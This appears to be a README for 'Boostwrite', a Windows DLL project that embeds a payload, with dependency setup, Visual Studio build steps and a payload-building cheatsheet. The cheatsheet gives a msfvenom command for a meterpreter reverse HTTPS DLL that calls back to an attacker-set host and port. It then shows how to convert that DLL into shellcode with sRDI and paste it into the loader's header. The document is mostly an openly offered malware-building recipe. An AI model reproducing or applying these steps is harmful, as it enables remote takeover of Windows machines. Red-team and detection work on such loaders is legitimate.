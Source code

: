 ## Boostwrite - Getting Dependencies

* Note, you must have libcurl and zlib locally as a dependency to compile boostwrite.
* Recommend using vcpkg, steps listed below.

1. Get latest vcpkg zip file from <https://github.com/microsoft/vcpkg/releases> (package available [here](https://github.com/microsoft/vcpkg/archive/2019.09.zip) and extract it to a folder of your choice (e.g. C:\vcpkg\)

2. Open Developer Command Prompt for VS 2017 (see Windows Start menu or %PROGRAMDATA%\Microsoft\Windows\StartMenu\Programs\Visual Studio 2017\Visual Studio Tools\) and cd to C:\vcpkg\
3. Run bootstrap-vcpkg.bat
4. Run vcpkg.exe integrate install
5. Run vcpkg.exe install curl

## Build Instructions - Visual Studio

1. Create new visual studio DLL C++ project.
2. Substitute template dllmain.cpp for dllmain.cpp in this project.
3. Add the header files into the project.
4. Update msfpayload.h with your payload.

## MSFPayload Build Cheatsheet for BOOSTWRITE

0. Generate MSF payload

```
msfvenom - p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 -f dll -o msf.dll
```

1. Leverage SRDI to create PIC code.

```
from ShellcodeRDI import *

dll = open("TestDLL_x86.dll", 'rb').read()
shellcode = ConvertToShellcode(dll)
print(shellcode)
# optional, write to a new DLL and use xxd to create C array
```

2. Create C array of sRDI DLL or just copy the bytes produced by the previous example

```
xxd -i msf.exe
```

3. Copy and paste in msfpayload.h

4. Update variable names as appropriate.

### References

* [Stackoverflow Install Help for libcurl and Visual Studio](https://stackoverflow.com/questions/53861300/how-do-you-properly-install-libcurl-for-use-in-visual-studio-2017)

* [sRDI](https://github.com/monoxgas/sRDI)
